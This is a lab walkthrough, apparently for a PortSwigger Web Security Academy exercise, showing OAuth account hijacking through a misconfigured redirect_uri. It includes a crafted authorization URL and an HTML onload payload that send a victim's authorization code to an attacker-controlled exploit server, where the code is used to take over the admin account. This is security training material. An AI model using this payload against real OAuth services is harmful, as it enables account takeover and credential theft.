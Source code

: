 
# 2 - OAuth account hijacking via redirect_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

------------------------------------------------

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/1.png)

Reference: https://portswigger.net/web-security/oauth

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/2.png)

------------------------------------------------

Generated endpoint: https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/3.png)

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/4.png)

https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/5.png)

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/9.png)


Deliver exploit to victim:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/10.png)
  
Log out, log in and replace the code with this one:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/11.png)

After the last request, you get admin access:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/12.png)

Admin panel:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/14.png)
  
![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/15.png)
